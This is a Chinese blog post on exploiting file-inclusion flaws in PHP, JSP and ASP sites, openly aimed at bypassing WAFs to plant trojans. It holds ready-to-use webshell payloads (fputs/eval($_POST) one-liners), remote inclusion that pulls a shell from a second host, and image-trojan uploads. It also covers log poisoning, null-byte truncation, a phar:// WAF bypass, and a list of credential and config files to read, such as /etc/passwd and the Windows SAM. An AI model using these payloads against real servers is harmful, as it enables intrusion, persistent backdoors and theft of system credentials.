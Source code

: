 ```yaml
---
title: 文件包含漏洞(绕过姿势)
date: 2017-04-10 14:12:54
comments: true
tags:
- 文件包含漏洞
categories: web安全
permalink: 02
---
```

<blockquote class="blockquote-center">谁将烟焚散，散了纵横的牵绊</blockquote>

　　文件包含漏洞是渗透测试过程中用得比较多的一个漏洞，主要用来绕过waf上传木马文件。今日在逛Tools论坛时，发现了一种新型的文件包含姿势，在此记录分享，并附上一些文件包含漏洞的基础利用姿势。
<!--more -->
### 特殊姿势
　　利用phar://协议特性可以在渗透过程中帮我们绕过一些waf检测，phar:// 数据流包装器自 PHP 5.3.0 起开始有效，貌似可以绕过安全狗。
#### 利用过程
新建shell.php代码内容：
```bash
<?php
include 'phar://test.rar/test.txt';
?>
```
新建test.txt里的内容：
```bash
<?php
phpinfo();
?>
```
　　压缩test.txt文件，可以重命名压缩文件为zip,phar,rar等格式，之后访问shell.php文件后，会出现phpinfo内容。
#### 亲测有效
在实验环境下，在test目录下新建shell.php，test.txt，并将test.txt打包成test.zip。
![](/upload_image/20170410/1.png)
shell.php内容如下：
![](/upload_image/20170410/2.png)
test.txt内容如下：
![](/upload_image/20170410/3.png)
访问shell.php:
![](/upload_image/20170410/4.png)

参考：http://bbs.pediy.com/thread-216191.htm

### php文件包含漏洞
PHP中的文件包含分为本地包含与远程包含。
#### 本地包含
新建一个phpinfo.txt，然后新建一个shell.php，写入：
```bash
<?php
    Include("phpinfo.txt");
?>
```
　　访问shell.php会输出phpinfo页面内容，无论将扩展名改为什么，都将以php代码执行。如果文件不是符合php规则的（即没有写<?php ?>等），则通过include可以直接输出源码。

#### 远程包含
前提：需要开启allow_url_fopen，默认关闭。
新建php.txt:
```bash
<?php
   echo "hello world";
?>
```
新建index.php:
```bash
<?php
    Include($_GET['page']);
?>
```
访问*http://www.xxxx.com/page=http://www.xxxx.com/php.txt*执行结果将输出hello world。

#### 文件包含利用

##### 读取敏感信息
如：http://www.xxx.com/index.php?page=/etc/passwd
Windows:
```bash
c:\boot.ini
c:\windows\systems32\inetsrv\MetaBase.xml
c:\windows\repair\sam
c:\windows\php.ini             php配置文件
c:\windows\my.ini               mysql配置文件
```
LINUX:
```bash
/etc/passwd
/usr/local/app/apache2/conf/http.conf
/usr/local/app/php5/lib/php.ini          PHP相关设置
/etc/httpd/conf/http.conf                    apache配置文件
/etc/my.cnf                                              mysql配置文件
```

##### 远程包含shell
test.txt文件，可以保存在远程服务器上，内容如下：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[nmask]);?>")?>
```
　　如果目标网站存在远程包含漏洞，则可以通过访问：*http://www.xxx1.com/index.php?page=http://www.xx2.com/test.txt*则会在服务器根目录下生产一个shell.php内容为:
```bash
<?php   eval($_POST[nmask]);?>
```

##### 本地包含配合文件上传
如果目标服务器关闭了allow_url_fopen，则可以尝试使用本地包含+文件上传
上传一个图片木马a.jpg，内容为：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
访问URL：*http://www.xxx.com/index.php?page=./a.jpg*在本地生成shell.php。


##### 本地包含配合apache日志拿shell
　　apache日志分为access.log与error.log，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:*http://www.xxx.com/<?php eval([$_POST]);?>*则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

##### 截断包含
有些开发者为了防止本地包含漏洞，会编写一下代码:
```bash
<?php
    Include  $_GET['page'].".php"
?>
```
新建1.jpg:
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
　　这样的话比如上传一个1.jpg图片码，则访问*http://www.xxx.com/1.jpg*时，访问的是1.jgp.php，以为没有这个文件所以报错。这是，可以尝试访问*http://www.xxx.com/1.jpg%00*

### jsp文件包含漏洞

#### include
```bash   
<%@ include file="head.jsp"%>
<%@ include file="body.jsp"%>
<%@ include file="tail.jsp"%>
```
#### jsp:include  
```bash   
<jsp:include page="head.jsp"/>
<jsp:include page="body.jsp"/>   
<jsp:include page="tail.jsp”/>
```
#### 采用JSTL
```bash
<c:import url="http://thief.one/1.jsp">
```

#### 说明
(1)include指令在转换时插入“Header.jsp”的源代码，而<jsp:include>标准动作在运行时插入“Header.jsp"的响应。<jsp:include>元素允许你包含动态文件和静态，而include说明标签仅仅是把一个文件内容当成静态追加到主文件中去。
(2)采用前两种方式，只能包含当前web应用的界面，不过c:import可以包含容器之外的内容。

### asp文件包含漏洞
asp貌似无法包含远程文件（iis安全设置），只能包含本地文件，语法如下：
```bash
<!--#include file="1.asp" -->
```
### aspx文件包含漏洞
aspx文件包含与asp一样，语法如下：
```bash
<!--#include file="top.aspx" -->
```

### 传送门
[文件上传漏洞(绕过姿势)](http://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/)

>转载请说明出处:[文件包含漏洞| nMask'Blog](http://thief.one/2017/04/10/2/)
本文地址：http://thief.one/2017/04/10/2/